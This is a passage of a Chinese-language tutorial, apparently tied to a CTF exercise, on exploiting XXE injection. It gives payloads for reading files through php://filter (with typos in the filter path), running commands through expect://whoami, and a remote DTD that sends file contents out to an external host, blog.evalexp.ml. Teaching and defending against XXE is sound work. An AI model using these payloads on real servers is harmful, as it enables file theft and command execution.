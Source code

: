 ## XXE的利用

XXE又分为以下两类：

* 有回显注入
* 无回显注入

### 有回显注入

#### 文件读取

其中有回显注入较为简单，例如在PHP中，如果后端对输入的XML进行了解析并且返回其中某个信息，我们能就可以利用该注入读取文件：

```xml-dtd
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE xxe[
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "php://filter/read=conver.base64-encode/resouce=index.php">]>
<root>
<name>&xxe;</name>
</root>
```

注意，如果服务器解析了该XML文档并且返回了其中的name字段的话，那么此时我们将得到index.php的文件内容(Base64编码)。

#### 命令执行

当然，利用该XXE我们也可以进行命令执行，这是因为XML是支持进行命令执行的，例如我们想知道此时系统是以哪个用户在运行Web程序，我们可以利用XXE，请求XML文档为：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe[
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "expect://whoami">]>
<root>
<name>&xxe;</name>
</root>
```

### 无回显注入

对于XXE而言，带有回显的情况十分少见，XML文档一般只是作为数据传输载体将数据提交给服务器，Web应用在处理获取数据后，返回其中某个字段的可能性很低，因此我们需要另一种方式来获取敏感信息。

以一题CTF题为例，其登录时发送的请求包为XML格式的数据，请求如下：

```xml
<user><username>admin</username><password>admin</password></user>
```

经测试也无回显，于是这个时候需要考虑使用另一种方式获取敏感信息，注意到XML支持HTTP、File协议，于是我们考虑使用外部实体注入，同时为了控制注入参数并且判断页面到底能否解析外部实体，我们将DTD实体放到远程VPS上。

先在VPS上创建一个dtd文件，内容如下：

```xml-dtd
<!ENTITY % all
    "<!ENTITY &#x25; send SYSTEM 'http://blog.evalexp.ml/?data=%file;'>"
>
%all;
```
